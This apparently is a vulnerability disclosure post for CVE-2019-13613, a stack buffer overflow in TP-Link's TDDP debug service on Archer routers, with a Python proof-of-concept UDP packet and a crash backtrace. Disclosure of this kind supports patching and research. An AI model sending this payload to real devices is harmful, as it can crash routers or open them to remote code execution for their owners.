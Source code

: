 ```yaml
---
layout: post
title: "[CVE-2019-13613] TDDP CMD_FTEST_CONFIG Stack-based Buffer Overflow"
comments: true
description: "TP-Link Device Debug Protocol CMD_FTEST_CONFIG Stack-based Buffer Overflow"
keywords: "tp-link, tddp, buffer overflow, stack overflow"
---
```


CMD_FTEST_CONFIG in the TP-Link Device Debug protocol in TP-Link Wireless Router Archer Router version 1.0.0 Build 20180502 rel.45702 (EU) and earlier is prone to a stack-based buffer overflow, which allows a remote attacker to achieve code execution or denial of service by sending a crafted payload to the listening server.

Proof-of-Concept:
```py
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

import sys
import binascii
import socket

rhost = "target_ip"
payload = "A" * 259 + "BBBBCCCC"

port_send = 1040

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;junk" % payload
packet = packet + argument.encode()
sock_send.sendto(packet, (rhost, port_send))
sock_send.close()
```

```
#0  0xff7277a8 in strnlen () from /lib/libc.so.0
#1  0xff722050 in _vfprintf_internal () from /lib/libc.so.0
#2  0xff71f3c8 in vsnprintf () from /lib/libc.so.0
#3  0x000092cc in ?? ()
Backtrace stopped: previous frame identical to this frame (corrupt stack?)
```

---
References:
1. https://mjg59.dreamwidth.org/51672.html?thread=1916120